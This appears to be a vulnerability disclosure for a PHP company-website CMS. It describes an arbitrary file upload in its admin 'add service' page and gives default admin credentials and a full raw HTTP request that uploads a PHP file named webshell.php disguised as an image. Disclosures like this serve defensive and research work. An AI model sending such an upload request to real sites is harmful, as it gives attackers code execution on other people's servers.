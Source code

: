 # The Company Website CMS developed by Torrahclef has an arbitrary file upload vulnerability
## vendors: [https://www.sourcecodester.com/php/11206/church-management-system.html](https://www.sourcecodester.com/php/15517/company-website-cms-php.html)

## Login account: admin/admin (Super Admin account)

## Vulnerability url: http://127.0.0.1/vogue/dashboard/createservice

## Loophole location: /dashboard/add-service.php has an arbitrary file upload vulnerability
## The program is built using the xmapp-php8.1 version

## process:
1、Use the admin and admin accounts to log in to the background system
![image](https://user-images.githubusercontent.com/88701694/196492985-16a1b8b2-5eb2-48f7-a216-edf0823e6409.png)
2、The construct POC successfully uploaded the php file
poc：
```
POST /vogue/dashboard/createservice HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------120472908621194155141824599930
Content-Length: 777
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/vogue/dashboard/createservice
Cookie: PHPSESSID=e2s3ah89nov4updrl625trke71
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="service_title"

2222222222222222
-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="service_desc"

22222222222222222
-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="service_detail"

222222222222222222222
-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="ufile"; filename="webshell.php"
Content-Type: image/png

<?php phpinfo(); ?>
-----------------------------120472908621194155141824599930
Content-Disposition: form-data; name="save"


-----------------------------120472908621194155141824599930--
```

![image](https://user-images.githubusercontent.com/88701694/196493351-c294f1f1-3fec-4a0f-8145-d440cd95967f.png)
3、Come to the front page, you can see the content you created under "services" at the bottom of the page, click in, and access the picture. Executing the script successfully
![image](https://user-images.githubusercontent.com/88701694/196496197-156415f8-ec28-47c0-a1d0-7d5893d74443.png)
![image](https://user-images.githubusercontent.com/88701694/196496227-58a609ac-f364-4a5c-8cd5-f680bfcb1561.png)
